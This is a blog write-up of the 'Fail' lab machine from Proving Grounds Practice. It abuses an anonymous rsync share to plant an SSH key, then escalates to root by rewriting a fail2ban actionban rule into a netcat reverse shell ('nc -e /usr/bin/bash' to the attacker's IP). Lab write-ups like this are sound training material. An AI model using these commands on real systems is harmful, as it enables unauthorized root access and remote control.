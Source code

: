 ```yaml
---
layout: single
title: Fail - Proving Grounds Practice
date: 2023-06-28
classes: wide
header:
  teaser: /assets/images/htb-writeup-waldo/linux.png
categories:
  - provinggrounds
  - infosec
tags:
  - provinggrounds
  - linux
  - intermediate
  - rsync
  - fail2ban
---
```


## Linux

![](/assets/images/htb-writeup-waldo/linux.png)

This blog post is a writeup of the Fail machine from Proving Grounds Practice.

### Summary
------------------
- The server runs a Rsync service which shares a /home folder without password.
- Uploading a SSH key to this shared folder allows us to connect via SSH as fox user.
- Fox user belongs to fail2ban group so we are able to modify some config files from this service.
- Modifying /etc/fail2ban/action.d/iptables-multiform.conf and changing the actionban rule by a reverse shell line we are able to catch a reverse shell as root user.

### Detailed steps
------------------

### Enumeration

This machine has only two open ports --> 22-SSH and 873-RSYNC

I started as always just enumerating the open ports with:
```
nmap -Pn -p- 192.168.186.126
```
![nmap1](\assets\images\pg-practice-fail\1.JPG)

I found a `RSYNC` service which is a remote and local file synchronisation tool.
Nmap has a script to enumerate this service:
```
nmap -Pn -sV --script=rsync-list-modules -p 873 192.168.186.126
```
![rsync](\assets\images\pg-practice-fail\4.JPG)

As we can see in the picture, Rsync it's sharing a folder named fox.

### Explotation

In order to exploit Rsync service, I tried to connect to fox folder using netcat:
```
@RSYNCD: 31.0
fox
```
![rsync2](\assets\images\pg-practice-fail\6.JPG)

The response from Rsync was OK which means that no password is needed to connect to this folder.

I used rsync to download the folder but it was empty.
![rsync3](\assets\images\pg-practice-fail\7.JPG)

Having in count that there is a SSH service i tried to create a `SSH key` to upload to the shared folder and log in as fox user.

	1- Generating the SSH key:
	![rsync4](\assets\images\pg-practice-fail\9.JPG)
	
	2- Uploading the key to the server:
	![rsync5](\assets\images\pg-practice-fail\13.JPG)
	
	3- Connecting via SSH with our key:
	![rsync6](\assets\images\pg-practice-fail\14.JPG)

Being fox user I was able to find the user flag:
![flag1](\assets\images\pg-practice-fail\15.JPG)


### Privilege escalation

I found that fox user belongs to the `fail2ban` group.
![user](\assets\images\pg-practice-fail\16.JPG)

Fail2ban scans log files and bans IPs that show the malicious signs -- too many password failures, seeking for exploits, etc.

Belonging to fail2ban group we are able to modify some configuration files.

In /etc/fail2ban/jail.conf file I was able to find the bantime (1 minute), numer of failures (2) and how much time the server bans a host (10 minutes).
![user](\assets\images\pg-practice-fail\17.JPG)

Knowing this I decided to modify /etc/fail2ban/action.d/iptables-multiform.conf which contains the `actionban` rule.
This rule sets the action the server will take when a host is banned. 

I modified this file to open a reverse shell when a host is banned:

File permissions

![actionban](\assets\images\pg-practice-fail\18.JPG)

```
actionban = /usr/bin/nc -e /usr/bin/bash 192.168.45.240 5566
```
![actionban2](\assets\images\pg-practice-fail\19.JPG)

In order to catch the reverse shell I opened a netcat listener and tried to login via SSH to get banned.
![actionban3](\assets\images\pg-practice-fail\20.JPG)

Once I get banned from the server I was able to catch the shell as root user:
![actionban4](\assets\images\pg-practice-fail\21.JPG)

Root flag:
![actionban5](\assets\images\pg-practice-fail\22.JPG)